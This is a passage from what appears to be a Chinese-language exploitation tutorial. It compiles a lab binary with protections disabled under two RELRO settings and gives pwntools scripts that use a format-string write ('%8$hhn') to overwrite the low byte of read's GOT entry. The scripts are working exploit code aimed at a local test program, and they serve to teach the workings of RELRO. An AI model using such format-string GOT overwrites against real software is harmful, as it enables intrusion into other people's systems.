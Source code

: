 编译

```plain
gcc -o test1 -z noexecstack -fno-stack-protector -no-pie -z lazy ct18.c
gcc -o test2 -z noexecstack -fno-stack-protector -no-pie -z now ct18.c
```

test1 利用脚本如下

```plain
from pwn import*
context.arch='amd64'
io = process('./test1')
gdb.attach(io)
pause()
read_got = 0x404020 
payload = '%'+str(0x66)+'c%8$hhn'
pay = payload.ljust(0x10,'\x00')
pay+=p64(read_got)
io.sendline(pay)

io.interactive()
```

更改 read 的 got 表低两位为 66

[![](assets/1706090564-cbdd187408492d351e1fa035bff3e9df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123233839-7ada7eea-ba05-1.png)

test2

```plain
from pwn import*
context.arch='amd64'
io = process('./test2')
gdb.attach(io)
pause()
read_got = 0x403FE8 
payload = '%'+str(0x66)+'c%8$hhn'
pay = payload.ljust(0x10,'\x00')
pay+=p64(read_got)
io.sendline(pay)

io.interactive()
```
